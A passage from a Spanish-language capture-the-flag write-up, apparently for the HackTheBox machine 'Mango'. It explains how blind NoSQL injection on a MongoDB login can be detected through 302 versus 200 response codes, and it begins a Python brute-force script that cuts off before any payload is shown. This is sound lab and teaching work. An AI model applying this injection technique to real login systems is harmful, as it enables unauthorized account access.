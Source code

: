 - [NOSQL INJECTION](https://owasp.org/www-pdf-archive/GOD16-NOSQL.pdf)
- [Les NOSQL injections Classique et Blind: Never trust user input](https://www.dailysecurity.fr/nosql-injections-classique-blind/)

Esta última liga fue de muchísima ayuda para de verdad entender que era lo que
estaba haciendo. Si regresamos al navegador y usamos las herramientas de
desarrollo podemos ver la petición que el navegador envía al servidor y vemos
que es muy parecida a lo que muestra el blog. Siendo incluso más observadores
podemos ver que cuando enviamos una petición con credenciales erróneas el
servidor nos responde con un código 200, pero cuando enviamos una petición
usando algún operador válido de MongoDB nos responde un código 302 y luego nos
redirige a home.php para nuevamente redirigirnos a index.php.

![Respuesta usando operadores de MongoDB](post-302.png)

Eso significa que podemos enviar consultas y verificar el código de respuesta
de la petición para saber si hemos acertado o no una consulta en MongoDB. Con
esto hice un script en python3, si quieres entender que hace recomiendo que
leas las dos ligas que he puesto antes y los ejemplos de PayloadsAllTheThings.

```python
#!/bin/python3

import requests
import urllib3
import urllib
from urllib.parse import quote
urllib3.disable_warnings()

# estos usuarios son solo una ocurrencia
usernames=['admin', 'mango', 'sweet', 'juicy', 'root']
url='http://staging-order.mango.htb/index.php'
#url='http://localhost:5533'

headers={
    "Host": "staging-order.mango.htb",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Referer": "http://staging-order.mango.htb/index.php",
    "Content-Type": "application/x-www-form-urlencoded",
    "Cookie": "PHPSESSID=sojrmfjb7sf228g1to8ffok81q",
```